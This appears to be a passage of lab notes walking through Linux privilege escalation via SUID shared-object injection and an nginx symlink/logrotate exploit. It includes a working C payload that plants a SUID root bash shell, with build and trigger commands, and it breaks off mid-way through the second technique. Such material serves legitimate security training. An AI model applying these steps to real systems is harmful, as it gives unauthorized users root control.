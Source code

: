# 9. Privilage Escalation -  SUID (Shared Object Injection)
## Detection

**Target box**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command line type:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a `.so` file is missing from a writable directory.

## Exploitation

**Target box**

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
8. Save the file as libcalc.c
9. In command prompt type:
`gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

# 10. Privilage Escalation -  SUID (Symlinks)
## Detection

**Target box**

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.

## Exploitation

**Target box** – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: `su root`
2. Once escalated to root, in command prompt type: `su -l www-data`
3. In command prompt type: `nginxed-root.sh /var/log/nginx/error.log`
4. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.
